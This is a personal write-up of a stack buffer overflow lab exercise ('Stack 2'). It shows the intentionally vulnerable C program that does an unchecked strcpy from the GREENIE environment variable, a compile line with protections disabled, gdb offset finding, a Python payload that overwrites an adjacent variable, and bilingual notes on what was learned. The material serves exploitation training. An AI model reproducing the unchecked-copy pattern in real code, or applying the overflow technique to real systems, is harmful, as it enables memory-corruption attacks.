# Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

# Explanation

1. **Compile**
```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack2.c -o Stack2
```

2. Find
```bash
#Run in gdb
gdb ./Stacktwo
break main
run
```
![Inital](Images/InitialGDB.png)

```
print &buffer
print &modified
print (char *)&modified - (char *)&buffer 
64   #Our offset
```
![Offset](Images/OffsetResult.png)
-------------------------------------------------------------------

- For this exercise I need to change `modified` to `0x0d0a0d0a` from a Env variable called GREENIE

```bash
#No space in zsh or else error for daaaaays
#"<I" means “pack a 32-bit unsigned int in little-endian.” That yields exactly the 4-byte sequence
export GREENIE="$(python3 -c 'import sys,struct; sys.stdout.buffer.write(b"A"*64 + struct.pack("<I",0x0d0a0d0a))')"

#Print env into .bin
printf "%s" "$GREENIE" > stacktwo.bin

#Verify
printf "%s" "$GREENIE" | hexdump -C
wc -c stacktwo.bin

#run code
./Stacktwo

#SUCCESS
```
![Success1](Images/Ste1Success.png)
![Success2](Images/Ste2Success.png)
![Success3](Images/Ste3Success.png)
![Success4](Images/Ste4Success.png)

------------------------------------------------------------------

# What I learned :

Every time I run a program from shell, the shell “hands off” a copy of its environment to that new process. By doing:

```bash
export GREENIE="…your payload…"
./stack2
```

Telling the shell:
1. “Attach an environment variable called `GREENIE` with this value to _every_ process I launch from now on.”
2. When running `./stack2`, the kernel creates a new process whose _environment block_ includes `GREENIE`.
3. Inside C code, this line…

```c
variable = getenv("GREENIE");
```
- …looks up the `GREENIE` entry in that environment block and returns a pointer to its bytes.
- You then do `strcpy(buffer, variable)`, which copies _exactly_ what you set in `GREENIE` into `buffer` and (overflow!) into `modified`.

# Ce que j’ai appris

Chaque fois que je lance un programme depuis le shell, celui-ci “transmet” une copie de son environnement au nouveau processus. En faisant :

```bash
export GREENIE="…your payload…"
./stack2
```

Je demande au shell :
1. « Ajoute une variable d’environnement nommée GREENIE avec cette valeur à tout processus que je lance à partir de maintenant. »
2. Au démarrage de ./stack2, le noyau crée un nouveau processus dont le bloc d’environnement contient GREENIE.
3. Dans le code C, cette ligne :

```bash
variable = getenv("GREENIE");
```

- …cherche l’entrée `GREENIE` dans ce bloc d’environnement et renvoie un pointeur vers ses octets.
- Ensuite, `strcpy(buffer, variable)` copie exactement la valeur de GREENIE dans buffer et (overflow !) jusqu’à écraser modified.
